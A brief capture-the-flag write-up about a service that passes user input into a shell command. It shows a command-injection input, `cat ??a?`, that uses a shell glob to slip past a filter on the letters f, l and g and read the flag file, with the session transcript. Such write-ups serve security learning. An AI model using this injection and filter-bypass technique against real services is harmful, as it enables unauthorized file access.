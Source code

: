 WTF??? `%s 2 > /dev/null` ??? Number 17394 is special!

```
INPUT : 17394
This is lib_17394 file.
How do you find vulnerable file?
a #
sh: 1: a: not found
sh: 2: 2: not found
```

Although "f", "l", and "g" are banned, "cat" is OK, and we can use `??a?` for "flag"!

```
$ nc 110.10.147.106 15959

   /$$$$$$   /$$$$$$   /$$$$$$   /$$$$$$   /$$$$$$
  /$$__  $$ /$$$_  $$ /$$$_  $$ /$$$_  $$ /$$$_  $$
 |__/  \ $$| $$$$\ $$| $$$$\ $$| $$$$\ $$| $$$$\ $$
   /$$$$$$/| $$ $$ $$| $$ $$ $$| $$ $$ $$| $$ $$ $$
  /$$____/ | $$\ $$$$| $$\ $$$$| $$\ $$$$| $$\ $$$$
 | $$      | $$ \ $$$| $$ \ $$$| $$ \ $$$| $$ \ $$$
 | $$$$$$$$|  $$$$$$/|  $$$$$$/|  $$$$$$/|  $$$$$$/
 |________/ \______/  \______/  \______/  \______/

INPUT : 17394
This is lib_17394 file.
How do you find vulnerable file?
cat ??a?
flag{Are_y0u_A_h@cker_in_real-word?}
```

And that is how you cheese a challenge like a pro.